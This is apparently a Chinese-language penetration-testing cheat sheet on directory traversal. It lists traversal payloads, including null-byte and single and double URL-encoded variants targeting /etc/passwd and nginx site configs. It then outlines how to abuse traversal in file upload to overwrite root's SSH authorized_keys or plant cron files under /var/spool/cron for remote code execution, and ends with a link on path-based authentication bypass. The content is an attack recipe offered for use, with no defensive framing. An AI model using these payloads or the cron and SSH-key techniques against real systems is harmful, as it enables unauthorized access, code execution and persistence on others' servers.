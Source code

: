 ## **目录穿越，各种触发格式**
```
../
/../
/static../
/admin/admin.php?file=..././..././..././..././/etc/nginx/sites-enabled/site.conf
/.%00.%2F
/..%5c..%5c

包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。


url编码绕过
.   =>  %2e
/   =>  %2f
% => %25  (双重URL编码)

..%2f..%2f..%2fetc/passwd
..%252f..%252f..%252fetc/passwd  
```

^
## **目录穿越利用场景**
文件下载目录穿越。
文件上传目录穿越，穿越覆盖ssh公钥/root/.ssh/authorized_keys。


文件上传可以覆盖的情况下，也可以直接覆盖定时任务的文件（像redis定时任务rce那样，只不过我们是覆盖，redis是写入）
Centos 的定时任务文件在 /var/spool/cron/<username>
Ubuntu 的定时任务文件在 /var/spool/cron/crontabs/<username>

以centos为例

那么我们就可以覆盖/var/spool/cron/root这个文件实现rce

但是这里我们不能覆盖，只能增加文件

我们可以增加其他用户的定时任务，因为默认情况下是没有任何文件的，就算是有也大概率是root

那么我们可以通过上传文件/var/spool/cron/daemon（找到一个一般Linux都有的用户名）从而实现定时任务rce，只不过拿到的权限不是root
![](.topwrite/assets/image_1742542963970.png)



^
## **路匹配鉴权绕过**
![](.topwrite/assets/image_1742542529997.png)
<https://blog.chain0x0.com/article/java%E8%B7%AF%E5%8C%B9%E9%85%8D%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87>